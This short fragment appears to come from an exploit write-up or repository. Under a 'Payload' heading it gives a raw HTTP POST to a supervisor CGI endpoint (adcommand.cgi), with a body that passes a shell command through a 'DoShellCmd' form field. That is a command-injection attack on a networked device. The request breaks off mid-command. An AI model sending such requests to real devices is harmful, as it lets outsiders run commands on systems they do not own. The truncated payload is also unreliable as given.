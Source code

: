 Payload
-------

    POST /cgi-bin/supervisor/adcommand.cgi HTTP/1.1

    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0

    Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8

    Accept-Language: en-US,en;q=0.5

    Connection: close

    Upgrade-Insecure-Requests: 1

    Content-Type: application/x-www-form-urlencoded

    Content-Length: 23

    DoShellCmd "strCmd=expr